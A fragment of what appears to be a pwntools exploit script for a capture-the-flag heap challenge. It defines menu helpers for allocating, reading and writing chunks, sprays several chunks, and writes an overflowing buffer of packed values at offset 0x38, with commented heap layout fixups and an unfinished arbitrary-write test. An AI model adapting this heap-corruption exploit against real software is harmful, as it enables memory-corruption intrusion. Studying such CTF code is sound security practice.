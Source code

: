 ```py
    io.recvuntil(b'index?')
    io.sendline(str(idx).encode())
    print_storage()

def read(idx):
    io.recvuntil(b'choice?')
    io.sendline(b'3')
    io.recvuntil(b'index?')
    io.sendline(str(idx).encode())
    io.recvuntil(b'\x1b[?25h\x1b[?25l')  # TODO/FIXME: Some crap we need to receive first
    data = io.recvuntil(context.newline, drop=True)
    #print(data)
    print_storage()
    return unhex(data)

def write(idx, data):
    io.recvuntil(b'choice?')
    io.sendline(b'4')
    io.recvuntil(b'index?')
    io.sendline(str(idx).encode())
    io.recvuntil(b'data?')
    io.send(hexlify(data) + b'\n')
    print_storage()

def quit():
    io.recvuntil(b'choice?')
    io.sendline(b'5')

def w(idx, data):
    alloc(len(data))
    write(idx, data)


for i in range(4):
    w(i, bytes([ord('A')+i])*0x20)

#drop(5)

"""
io.recvuntil(b'choice?')
io.sendline(b'4')
io.recvuntil(b'index?')
io.sendline(str('0').encode())
io.recvuntil(b'data?')
"""

x = b''
for i in range(10):
    x += p64(0xDEADCAFE+i)

x = bytearray(x)
idx=0x38
#x[idx-8:idx] = p64(0x18)
#x[idx:idx+8] = p64(0x16230)
#x[idx+8:idx+16] = p64(0x18)
#x[idx+16:idx+24] = p64(0x20)  # layout fixups...

pause()
write(0, x)

### TEST ARBWRITE HERE...
#write(0, b'aaaa')
#io.interactive()
```